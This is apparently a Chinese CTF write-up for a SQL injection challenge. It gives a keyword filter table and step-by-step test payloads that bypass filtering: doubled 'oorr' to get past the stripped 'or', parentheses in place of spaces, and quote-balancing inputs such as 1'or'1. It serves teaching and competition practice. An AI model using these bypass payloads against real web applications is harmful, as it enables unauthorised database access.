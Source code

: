 1、认真一点

(-1)关键词表       

[注]该表是根据下面一步步推断出的，之所以放在最前面是方便sql注入的过程中查阅。

| 关键词 | 正常 | 标记 | 过滤 | 代替方案 | 备注             |
| ------ | ---- | ---- | ---- | -------- | ---------------- |
| 单引号 | 是   |      |      |          |                  |
| or     |      |      | 是   | oorr     |                  |
| union  |      | 是   |      |          |                  |
| and    | 是   |      |      |          |                  |
| 空格   |      | 是   |      | 括号     | 在单引号外被标记 |
| \#     |      | 是   |      |          |                  |
| /**/   |      |      | 是   |          |                  |
| %      |      | 是   |      |          |                  |
| select |      |      | 是   |          |                  |
| order  | 是   |      |      |          |                  |
| by     | 是   |      |      |          |                  |
|        |      |      |      |          |                  |

(1)回显

正确错误结果会回显，会额外发现sql注入，不直接回显报错

故约定，返回正确则对，报错或者返回错误则不对，关键词出现sql注入则该关键词被标记(非过滤)。

```
id=1 #对
0，2#均不对
1 union #sql
```

(2)类型

字符型,且用单引号(单引号既没被过滤也没被标记)

select * from table_name where id =''

```
id=1abc #返回错误
1` 对
1' #不对
```

(2)注释判断

\#被完全标记,—没被标记但可能被过滤

``` 
1'--%20#不对
1 #  #sql
1'%23 #sql
```

(3)绕过单引号

由于注释被标记或过滤，所以得绕过引号

```
1'or'1 #对
```

(4)判断被过滤和标记的关键词

a.空格,or

```
空格：
1' or '1 #sql
1'/**/or'1 #不对
1'or('1')or'1 #不对
```

空格没法被绕过怎么办,引号，注释，括号三种代替方案都不对。

是不是or特殊或者单引号特殊？

测试or:

```
1'oror'1 #对
1'ororor'1 #对
1'oorr'1 #对
1'ooorrr'1 #不对
```

看来or确实被过滤了，用外层重写方式绕过即可。再次判断：

```
1'/**/Oorr'1 #不对
1'oorr(1)oorr'1 #对
```

所以空格可以用括号绕过

b.select,and,%,union,order,by

```
1select #sql
1and #sql
1%  #sql
1union #sql
1order #对
1by #对
```

(5)写脚本破解表名，列名等。
参见renzhenyidian.py










